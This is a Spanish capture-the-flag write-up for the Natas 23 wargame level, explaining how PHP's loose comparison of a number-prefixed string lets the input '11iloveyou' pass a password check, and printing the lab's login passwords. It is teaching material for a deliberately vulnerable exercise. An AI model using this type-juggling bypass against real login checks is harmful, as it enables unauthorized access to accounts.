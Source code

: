 ```yaml
---
title: Natas-23
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas23
 pass:natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

Se nos presenta el siguiente codigo:

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

Hay que superar la condición que se nos presenta en:

```php
if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
```

Para que se cumpla la condición $_REQUEST['passwd'] > 10 tenemos que tener en cuenta el siguiente detalle.

En PHP tiene una particularidad cuando se compara números que contienen letras. Por ejemplo:

```php
$passwd = "11holaquetal";
$r = $passwd > 10;
var_dump($r);

bool(true) 
```

En el código anterior, a la hora de hacer la comparación, utiliza la cadena númerica de $passwd que es 11 y lo compara con 10
Para que se cumpla en este escenario, tiene que comenzar con un número sino dará falso.

Ya solo nos queda cumplir con la 2º condición

```php
strstr($_REQUEST["passwd"],"iloveyou")
```

Explico con un ejemplo en que consiste la funcion strstr:

```php
<?php
$email  = 'name@example.com';
$domain = strstr($email, '@');
echo $domain; // mostrará @example.com

$user = strstr($email, '@', true); // Desde PHP 5.3.0
echo $user; // mostrará name
?>
```

Asi que solo tenemos que insertar en el campo passwd del navegador:

```
11iloveyou
```

Y tendremos acceso al siguiente nivel:

```
Username: natas24
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

```

[Volver al archivo](archive)

